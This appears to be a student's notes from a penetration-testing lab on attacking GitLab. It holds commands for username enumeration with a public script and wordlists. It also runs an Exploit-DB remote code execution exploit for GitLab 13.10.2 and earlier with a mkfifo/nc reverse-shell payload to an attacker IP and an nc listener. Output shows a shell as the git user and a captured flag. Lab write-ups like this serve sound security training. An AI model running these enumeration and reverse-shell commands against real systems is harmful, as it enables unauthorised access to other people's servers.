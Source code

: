 # Attacking GitLab

## Username Enumeration

https://www.exploit-db.com/exploits/49821
https://github.com/dpgg101/GitLabUserEnum

./gitlab_userenum.sh --url http://gitlab.inlanefreight.local:8081/ --userlist users.txt

## Authenticated Remote Code Execution

GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution vulnerability due to an issue with ExifTool handling metadata in uploaded image files.

https://www.exploit-db.com/exploits/49951

python3 gitlab_13_10_2_rce.py -t http://gitlab.inlanefreight.local:8081 -u mrb3n -p password1 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 8443 >/tmp/f '

nc -lnvp 8443

## LAB

IP=10.129.97.42
printf "%s\t%s\n\n" "$IP" "gitlab.inlanefreight.local" | sudo tee -a /etc/hosts


git clone https://github.com/dpgg101/GitLabUserEnum
cd GitLabUserEnum/

python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ -w /usr/share/wordlists/rockyou.txt

python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ -w /opt/useful/SecLists/Usernames/Names/names.txt

GitLab User Enumeration in python
[+] The username bob exists!

https://www.exploit-db.com/exploits/49951

nc -lnvp 8443


python3 49951.py -t http://gitlab.inlanefreight.local:8081 -u roott -p Welcome123 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.115 8443 >/tmp/f '


git@app04:~/gitlab-workhorse$ ls -l
ls -l
total 16
-rw-r--r-- 1 root root         42 Aug 28  2021 VERSION
-rw-r----- 1 root git         136 Aug 29  2021 config.toml
-rw-r--r-- 1 root root         19 Sep 28  2021 flag_gitlab.txt
drwxr-x--- 2 git  gitlab-www 4096 Jan 12 11:27 sockets
git@app04:~/gitlab-workhorse$ cat flag_gitlab.txt
cat flag_gitlab.txt
s3cure_y0ur_Rep0s!

ls -l /var/opt/gitlab/git-data

python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt
[+] The username bob exists!
[+] The username root exists!
[+] The username demo exists!
[+] The username public exists!
[+] The username help exists!
[+] The username Bob exists!
[+] The username BOB exists!
[+] The username hacker exists!

python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt

python3 gitlab_userenum.py --url http://gitlab.inlanefreight.local:8081/ -w /opt/useful/SecLists/Usernames/cirt-default-usernames.txt
[+] The username DEMO exists!



